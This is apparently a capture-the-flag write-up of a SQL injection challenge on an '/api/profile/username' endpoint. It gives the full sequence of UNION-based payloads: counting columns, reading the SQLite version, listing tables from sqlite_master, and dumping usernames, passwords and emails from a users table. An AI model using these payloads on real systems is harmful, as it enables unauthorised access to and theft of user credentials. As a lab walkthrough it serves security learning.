

Daily challenge.
Hint: *SQL Injection.*

The vulnerable endpoint is `/api/profile/username`. When sending a request to `/api/profile/username' AND 1=1 --` the server returns user information in the response.
Next I tried `UNION` payload and I counted seven columns, `' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --`.

I also identified version of the database, with payload: `/api/profile/nonexistent' UNION SELECT sqlite_version(),NULL,NULL,NULL,NULL,NULL,NULL --`, which is 3.44.2.

In order to discover table names I used payload: `/api/profile/nonexistent' UNION SELECT GROUP_CONCAT(name),NULL,NULL,NULL,NULL,NULL,NULL FROM sqlite_master--`.

The most interesting table always is the one which contains users information, which is often called - `users`.
With `/api/profile/nonexistent' UNION SELECT sql,NULL,NULL,NULL,NULL,NULL,NULL FROM sqlite_master WHERE type='table' AND name='users'--` I discovered structure of the table.

Lastly, I dumped most interesting columns from it, which are username, password, email and full_name, with: `/api/profile/nonexistent' UNION SELECT username,password,email,full_name,NULL,NULL,NULL FROM users--`, and in the response I saw the flag.

